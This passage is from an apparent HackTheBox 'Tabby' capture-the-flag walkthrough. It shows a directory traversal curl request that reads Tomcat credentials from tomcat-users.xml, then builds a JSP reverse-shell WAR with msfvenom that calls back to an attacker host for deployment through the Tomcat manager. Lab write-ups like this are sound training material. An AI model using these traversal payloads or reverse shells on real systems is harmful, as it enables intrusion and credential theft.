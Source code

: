 ### Path Travel to Tomcat Creds

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/tabby)

I search location of file `tomcat-users.xml` and this is helpful [File list of package tomcat9](https://packages.ubuntu.com/focal/all/tomcat9/filelist).

![](images/4.png)

Using directory traversal vulberability at port 80 to read file `tomcat-users.xml`. I have credential `tomcat:$3cureP4s5w0rd123!` with role `admin-gui` and `manager-script`.

```
┌──(Hades㉿10.10.14.5)-[0.5:27.1]~/scripting
└─$ curl 'http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml'
<snip>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

### Manager script deploy

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/tabby)

Follow role of the knowed credential, I search for deploy shell with manager script and I found [Deploy\_A\_New\_Application\_Archive\_(WAR)\_Remotely](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html\#Deploy\_A\_New\_Application\_Archive\_(WAR)\_Remotely)

Deployt a war file at `http://localhost:8080/manager/text/deploy?path=/foo`

This link [tomcat manager deploy](https://gist.github.com/pete911/6111816) guide how to deploy with `curl`.

`curl --upload-file appplication-0.1-1.war "http://tomcat:tomcat@localhost:8080/manager/deploy?path=/application-0.1-1`

First, I create `shell.war` using msfvenom

```
┌──(Hades㉿10.10.14.5)-[0.5:29.1]~/walkthrough/hackthebox/tabby
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war > shell.war
Payload size: 1100 bytes
Final size of war file: 1100 bytes
```
